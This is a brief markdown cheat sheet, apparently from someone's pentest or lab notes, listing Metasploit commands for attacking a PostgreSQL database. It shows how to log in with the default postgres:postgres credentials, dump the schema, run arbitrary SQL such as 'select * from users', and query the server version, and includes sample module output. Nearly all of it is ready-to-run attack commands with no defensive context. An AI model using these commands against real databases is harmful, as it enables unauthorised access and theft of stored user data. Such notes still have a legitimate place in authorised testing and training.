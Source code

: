 ## Commands
Take notes that your sessions should also be in background for those steps to work

Extract Data
```
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```

- Simply change the SQL= query to the desired search


Version
```
msf6 > use admin/postgres/postgres_sql
msf6 auxiliary(admin/postgres/postgres_sql) > run postgres://user:password@MACHINE_IP/database_name sql='select version()'

[*] Running module against IP

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed
